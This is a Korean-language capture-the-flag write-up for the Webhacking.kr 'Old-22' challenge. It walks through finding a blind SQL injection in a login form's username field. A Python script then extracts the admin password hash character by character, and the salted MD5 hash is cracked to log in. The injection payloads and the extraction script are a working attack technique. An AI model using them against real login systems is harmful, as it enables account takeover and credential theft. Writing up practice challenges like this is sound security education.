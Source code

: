 # _Old-22_

**Category:** _Web_

**Source:** _Webhacking.kr_

**Points:** _500_

**Author:** _galaxy(김경환)_

**Description:** 

> ![img](resource/prob.png)

## Point
- _blind sql injection_

## Write-up

문제화면에는 간단한 login창이 보입니다.

아무거나 입력하니 Login fail!이라고 나옵니다.

sql injection인가 싶어서 이것저것 넣어보았지만 되지 않았습니다.

join 버튼이 있어서 join을 했습니다.

![img](resource/join.png)

asd/asd로 join을 하고 login을 하니 login에 성공하고 password hash값이 나왔습니다.

![img](resource/asd.png)

blind sql injection인가 싶어서 password에 asd' and 1 -- 과 asd' and 0 -- 으로 테스트 해보았습니다.

둘다 Login Fail!이 나타났습니다.

이번엔 username에서 테스트해 보았습니다.

asd' and 0 -- 에서는 Login Fail!이 나타나지만 asd' and 1 -- 에서는 Wrong password가 나타납니다.

참과 거짓일때 반응이 다르게 나타나니 blind sql injection이 가능해졌습니다.

username은 admin이기 때문에 password만 알아내면 됩니다.

password를 알아내는 python 스크립트를 작성하고 실행했습니다.

```python
import requests
import string

URL='https://webhacking.kr/challenge/bonus-2/index.php'
cookies={'PHPSESSID':'2jht6e81p3mu59h6vmclgebdtc'}

pw_length=0

for i in range(50):
	data={'pw':'a','uuid':"admin' and length(pw)="+str(i)+" -- "}
	response=requests.post(URL,cookies=cookies,data=data)
	if 'Wrong password!'in response.text:
		pw_length=i
		break
print('pw length is '+str(pw_length))

pw=''
for i in range(1,pw_length+1):
	for ch in string.digits+string.letters:
		data={'pw':'a','uuid':"admin' and mid(pw,"+str(i)+",1)='"+ch+"' -- "}
		response=requests.post(URL,cookies=cookies,data=data)
		if 'Wrong password!'in response.text:
			pw+=ch
			break

print('pw is '+pw)
```
![img](resource/exp.png)

password에 대한 hash값을 찾았습니다.

찾은 hash값을 md5로 decrypt 했습니다.

'wowapple'가 나와서 입력하니 Login Fail!이 나왔습니다. 

기본적으로 password + salt값이 있는듯하여 a/a로 계정을 만들어서 나온 hash값을 decrypt하니 'aapple'가 나왔습니다.

admin/wow로 로그인 하니 pwned되었습니다.